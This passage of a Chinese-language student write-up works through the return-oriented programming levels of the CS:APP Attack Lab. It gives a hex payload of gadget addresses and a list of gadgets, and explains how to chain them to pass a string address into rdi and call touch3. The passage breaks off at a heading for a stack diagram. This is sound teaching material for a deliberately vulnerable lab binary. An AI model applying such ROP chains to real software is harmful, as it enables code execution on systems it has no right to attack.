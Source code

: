    `00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00` `ab 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00` `a2 19 40 00 00 00 00 00` `ec 17 40 00 00 00 00 00`

   

6. 结果

   <img src=".\assets\20210408_2.png" style="zoom: 80%;" /> 

   

##### Level 3

1. 基本思路：将  `35 39 62 39 39 37 66 61`  写到栈上的某个位置（很可能是放在 payload 的最后） -> 想办法将这个地址送到 `rdi` -> `call touch3`

   

2. gadget

   ```assembly
   1. 0x4019a2:	48 89 c7 c3			movq %rax, %rdi; retq;					
   2. 0x401a06:	48 89 e0 c3			movq %rsp, %rax; retq;
   3. 0x4019ab:	58 90 c3		 	popq %rax;	nop; retq;
   4. 0x4019dd:	89 c2 90 c3			movl %eax, %edx; nop; retq;
   5. 0x401a69:	89 d1 08 db c3		movl %edx, %ecx; orb %bl, %bl; retq;
   6. 0x401a13:	89 ce 90 90 c3		movl %ecx, %esi; nop; nop; retq;
   7. 0x00000000004019d6 <add_xy>:
     4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
     4019da:	c3                   	retq   
   ```

   用 gadget 3 可以给 `rax` 赋任意值；用 gadget 2 可以将 `rsp` 的值赋给 `rax`；用 gadget 4~6 可以将 `eax` 赋给 `esi`（注意：`movl %eax, %ebx` 会将 `eax` 赋给 `rbx` 的低 4 位，并且将 `rbx` 的高 4 位清零）；用 gadget 1 可以将 `rax` 赋给 `rdi`。

   至此，我们可以将栈上某个位置的 `rsp` 的值（记好这个位置）赋给 `rdi`，然后计算我们放置字符串的位置相对于这个位置的偏移，将这个偏移值赋给 `esi` （利用 gadget 3~6 实现对 `esi` 的任意赋值），再用 gadget 7 将 `[rdi + rsi]` 赋给 `rax`，用 gadget 1 将 `rax` 赋给 `rdi`，最后再 return 到函数 `touch3` 即可。

   其中，`lea (%rdi,%rsi,1),%rax` 在 intel 语法下是 `lea rax,[rdi + 1*rsi]`

   

3. 栈图
